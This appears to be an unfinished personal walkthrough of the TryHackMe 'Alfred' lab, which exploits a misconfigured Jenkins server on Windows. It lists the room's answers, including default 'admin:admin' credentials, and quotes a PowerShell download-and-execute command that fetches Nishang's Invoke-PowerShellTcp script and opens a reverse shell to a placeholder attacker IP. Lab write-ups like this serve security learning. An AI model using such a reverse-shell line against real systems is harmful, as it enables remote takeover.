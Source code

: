 ```yaml
---
layout: post
title: Alfred
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, windows, Jenkins, Nishang]
---
```

![Basic Pentesting](./assets/alfred.png){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

**Difficulty level:** Easy

## Task 1: Initial Acess
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


### Questions

Q1. How many ports are open? (TCP only)

> "3"

Q2. What is the username and password for the login panel? (in the format username:password)

> "admin:admin"

Q3. Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server


> "No answer needed"

Q4. What is the user.txt flag? 

> ""

### MyWalk

Several tries even following several walkthroughs without success!! No connection was made on the listener. Also on discord there's some people showing problems on receiving the connection from target.  
To try again later, or following one of the latest walkthrough:

https://olivierkonate.medium.com/alfred-tryhackme-writeup-d3dca737e0fc
